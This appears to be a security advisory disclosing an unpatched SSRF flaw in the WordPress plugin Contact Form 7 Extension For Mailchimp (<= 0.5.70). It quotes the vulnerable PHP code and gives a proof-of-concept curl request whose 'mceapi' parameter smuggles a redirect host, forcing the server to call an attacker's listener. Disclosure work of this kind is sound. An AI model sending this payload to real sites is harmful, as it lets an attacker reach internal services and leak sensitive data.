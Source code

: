 ### Contact Form 7 Extension For Mailchimp load list function is vulnerable to SSRF causing information leak

- **Application**: Contact Form 7 Extension For Mailchimp <= 0.5.70

- **Status**: Confirmed, not patched yet

- **Threat Impact**: Sensitive data leakage

- **Code**:  The API is passed in through `mceapi` POST parameter. It is then saved into database. Later it is read back from database and split using the `-` character. The second part after split is used as the host of the URL, which is passed into `callApiGet` and finally used by sink `wp_remote_get`

  File: `lib/find.php`

  ```
  function wpcf7_mce_loadlistas(){
    mceapi = isset($_POST['mceapi']) ? $_POST['mceapi'] : 0;
    ...
    $tmppost = $tmppost + array('api' => $mceapi);
    update_option($mce_idformxx, $tmppost);
    ...
    $cf7_mch = get_option($mce_idformxx, $cf7_mch_defaults);
    $api = $cf7_mch['api'];
    $dc = explode("-", $api);
    $urlmcv3 = "https://$dc[1].api.mailchimp.com/3.0";
    ...
    $url_get_merge_fields = "$urlmcv3/lists/$list/merge-fields";  //// $urlmcv3
    $arraymerger_ = callApiGet($dc[0], $url_get_merge_fields);
  }
  
  function callApiGet($token, $url) {
    ...
    $mergerfield = wp_remote_get($url, $header);
  }
  ```

  File: `option.php`

  ```
  function update_option( $option, $value, $autoload = null ) {
    ...
    $serialized_value = maybe_serialize( $value );
    ...
    $update_args = array(
  		'option_value' => $serialized_value,
  	);
    ...
    $result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
  }
  ```

- **POC**:
  1. Listen on 8888 on server side
  1. Login to get cookie
  1. Send a post request through curl: `curl -X POST http://127.0.0.1:28000/wp-admin/admin-ajax.php\?action\=wpcf7_mce_loadlistas -d "mceapi=-ssrf.localdomain.pw%2Fcustom%252D30x%2F%3Fcode%3D301%26url%3Dhttp%3A%2F%2F127.0.0.1%3A8888%26a%3D" --cookie "wordpress_cookie"`
  1. Receive a request on server side. 

